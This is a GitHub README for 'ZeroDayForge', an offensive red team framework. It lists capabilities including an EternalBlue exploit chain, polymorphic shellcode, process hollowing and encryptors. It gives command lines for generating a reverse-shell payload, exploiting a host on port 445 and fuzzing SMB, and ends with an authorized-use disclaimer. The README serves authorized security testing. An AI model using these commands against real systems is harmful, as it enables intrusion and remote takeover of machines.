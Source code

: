 # ⚔️ ZeroDayForge

![ZDF Banner](https://img.shields.io/badge/status-stable-brightgreen?style=flat-square)
![License](https://img.shields.io/badge/license-MIT-blue?style=flat-square)
![Platform](https://img.shields.io/badge/platform-Windows/Linux-ff69b4?style=flat-square)

> 💀 **ZeroDayForge** is a modular red team framework for exploit development, protocol fuzzing, memory corruption research, and shellcode generation — built for professionals, researchers, and chaos engineers.

---

## 🚀 Capabilities

- 🎯 **Protocol Fuzzing** (SMBv1, RDP, DNS)
- 💥 **EternalBlue Exploit Chain** for Windows targets
- 🧠 **Shellcode Generator** (x64 polymorphic, encrypted)
- 🧬 **Process Injection** (Direct Syscalls + Hollowing)
- 🛡️ **Shellcode Encryptors** (AES, ChaCha20, XOR fallback)
- 🧪 **Simulated Win32 Heap Manipulation**
- 🔍 **PoC Generator** with crash logging
- ✅ **Self-Test Suite** — verify tool integrity without a target

---

## 📦 Installation

```bash
git clone https://github.com/YOUR_USERNAME/zerodayforge.git
cd zerodayforge
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

---

## ⚙️ Usage

### 🔎 Run Self-Test (no target required)

```bash
python self_test.py
```

### 🔧 Generate Payload

```bash
python zerodayforge.py payload -t shellcode -o reverse.bin -l 10.10.0.1 -p 4444
```

### 💥 Exploit EternalBlue

```bash
python zerodayforge.py exploit -t 192.168.1.100:445 -e eternalblue
```

### 🔬 Fuzz Protocol

```bash
python zerodayforge.py fuzz -t 192.168.1.100:445 -p smb
```

---

## 🧠 Developer Mode

Enable debug logging:
```bash
python zerodayforge.py -d <subcommand>
```

---

## 📁 File Structure

```
.
├── core/               # Core framework (fuzzer, heap, syscall)
├── payloads/           # Shellcode, encryption, injection logic
├── protocols/          # Protocol-specific exploits (SMB, RDP, etc)
├── scripts/            # Shell script utilities
├── examples/           # Sample payload generators
├── zerodayforge.py     # Main CLI
├── self_test.py        # Local self-verification
├── requirements.txt
└── README.md
```

---

## 🔥 Credits & Tools Used

- [Impacket](https://github.com/fortra/impacket)
- [PyRDP](https://github.com/GoSecure/pyrdp)
- [Capstone & Keystone](http://www.keystone-engine.org/)
- Offensive Security inspiration

---

## ⚠️ Disclaimer

This tool is provided for **educational and authorized red teaming use only**.
**Do not use it on networks you don’t own or have permission to test.**
You've been warned. ⚔️

---

> ZeroDayForge — *Shaping Exploits. Forging Mayhem.*
